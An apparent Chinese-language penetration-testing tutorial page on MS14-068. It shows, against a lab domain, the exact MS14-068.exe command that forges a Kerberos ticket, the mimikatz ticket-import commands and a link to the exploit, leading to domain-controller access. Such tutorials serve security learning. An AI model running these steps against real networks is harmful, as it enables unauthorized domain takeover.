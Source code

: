 ```yaml
---
title: "4.2.5 MS14-068"
id: zhfly3431
---
```


### 4.2.5 MS14-068

MS14-068 是一个能够使普通用户提权获取域控权限的权限提升漏洞，微软给出的补丁 是 kb3011780。在 server 2000 以上的域控中，只要没打这个补丁，都有可能被利用。

*   1、 尝试直接访问域控的 C 盘

![image](../img/4a484bf40bbe83eae73a41c8adad4d92.png)

*   2、使用 ms14-068 的 exp，生成票据

```
C:\Users\jeff1\Desktop>MS14-068.exe -u jeff1@adtest.com -s S-1-5-21-3418659180-3 421952656-1938706522-1109 -d 192.168.19.100 -p test@124 
```

![image](../img/727e5961049bc7881c0cc2cb7d58cdd0.png)

*   3、 使用 mimilatz 导入生成的 ccache 文件，导入之前 cmd 下使用命令 klist purge 或者在 mimikatz 中使用 kerberos::purge 删除当前缓存的 kerberos 票据

![image](../img/b1632c7bbef4a8fd442ef66a8972af6d.png)

导入票据:

```
kerberos::ptc TGT_jeff1@adtest.com.ccache 
```

![image](../img/829ca8cd3f198ff9e4bfa7c29d89d71d.png)

4、 再次访问域控

![image](../img/c5fdbd90669d93a53543db666714f1eb.png)

MS14-068 下载地址:

https://github.com/ianxtianxt/MS14-068
